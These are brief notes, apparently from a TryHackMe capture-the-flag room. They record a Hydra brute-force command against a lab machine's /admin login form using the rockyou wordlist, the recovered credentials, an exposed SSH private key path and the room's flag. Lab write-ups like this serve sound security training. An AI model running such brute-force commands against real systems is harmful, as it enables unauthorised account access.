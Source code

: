 ip: 10.10.53.177

/admin login page

hydra -l admin -P rockyou.txt 10.10.53.177 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V

user=admin&pass=passwdiguess

**CREDS**
uname: admin
paswd: xavier

ssh RSA key
http://10.10.53.177/admin/panel/id_rsa




**FLAGS**
THM{brut3_f0rce_is_e4sy}